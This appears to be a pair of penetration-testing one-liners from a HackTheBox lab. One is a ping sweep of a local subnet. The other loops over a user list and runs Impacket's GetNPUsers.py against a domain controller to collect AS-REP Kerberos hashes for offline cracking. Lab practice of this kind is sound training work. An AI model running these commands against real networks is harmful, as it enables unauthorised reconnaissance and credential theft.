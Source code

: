 **#ping all the 192.168.0.x subnet**  
`for i in $(seq 1 10); do (ping -c 1 192.168.0.${i} | grep "bytes from" | awk '{print $4}'&);done; `

**#loops over a file "users" executes.py**  
`for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user}| grep-v Impacket;done `
